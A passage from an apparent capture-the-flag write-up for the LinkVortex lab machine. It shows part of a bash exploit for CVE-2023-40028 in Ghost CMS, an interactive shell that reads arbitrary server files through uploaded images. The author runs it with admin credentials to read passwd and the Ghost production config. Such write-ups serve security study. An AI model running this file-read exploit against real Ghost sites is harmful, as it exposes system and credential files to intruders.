 ```shell
    echo "[!] FAILED TO SEND THE EXPLOIT"
    clean
    exit
  fi
}

echo "WELCOME TO THE CVE-2023-40028 SHELL"
while true; do
  read -p "file> " INPUT
  if [[ $INPUT == "exit" ]]; then
    echo "Bye Bye !"
    break
  fi
  if [[ $INPUT =~ \  ]]; then
    echo "PLEASE ENTER FULL FILE PATH WITHOUT SPACE"
    continue
  fi
  if [ -z $INPUT  ]; then
    echo "VALUE REQUIRED"
    continue
  fi
  generate_exploit $INPUT
  send_exploit
  curl -b cookie.txt -s $GHOST_URL/content/images/2024/$IMAGE_NAME.png
  clean
done

rm cookie.txt
```

## Exploitation

I ran the exploit:

```shell
./exploit.sh -u admin@linkvortex.htb -p OctopiFociPilfer45
```

![](Pasted%20image%2020250129185822.png)

> It worked! Now I can read passwd

![](Pasted%20image%2020250129190021.png)

Now I remembered the Dockerfile I inspected with the git-dumper:

![](Pasted%20image%2020250129190147.png)

So I'll read the content of `/var/lib/ghost/config.production.json`:

```shell
file> /var/lib/ghost/config.production.json
{
  "url": "http://localhost:2368",
  "server": {
    "port": 2368,
    "host": "::"
  },
  "mail": {
    "transport": "Direct"
  },
  "logging": {
    "transports": ["stdout"]
  },
  "process": "systemd",
```